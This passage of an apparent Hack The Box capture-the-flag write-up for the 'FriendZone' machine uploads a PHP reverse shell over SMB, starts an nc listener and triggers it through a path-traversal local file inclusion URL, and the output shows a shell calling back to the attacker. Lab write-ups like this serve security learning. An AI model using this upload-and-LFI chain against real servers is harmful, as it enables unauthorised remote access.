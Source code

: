 <center><img src="/htb/friendzone/vuln.png"></center>
<br>
If we add the included paramater to the link then we are greeted with yet another message that tells us the parameter is wrong witch hints that we need to use an LFI

<center><img src="/htb/friendzone/parameter.png"></center>
<br>
So for the LFI we are going to upload the reverse shell to the <b>Development</b> share since we have Read/Write privileges to it.
```
# smbclient -U none //10.10.10.123/Development password
Try "help" to get a list of possible commands.
smb: \> put php-reverse-shell.php
putting file php-reverse-shell.php as \php-reverse-shell.php (30.8 kb/s) (average 30.8 kb/s)
```
Now we set up our <b>nc</b> listener on the port we specified in our shell
```
# nc -lvnp 10000
listening on [any] 10000 ...
```
Took me some time to find where the Development folder is stored but after some time I found it. To trigger the LFI navigate to <b>https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../../../../..//etc/Development/php-reverse-shell</b>. Just make sure you put in the name of your shell and not mine. If you did everything correctly you should get a shell.
```
# nc -lvnp 10000
listening on [any] 10000 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.123] 46614
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 21:39:24 up  1:06,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
```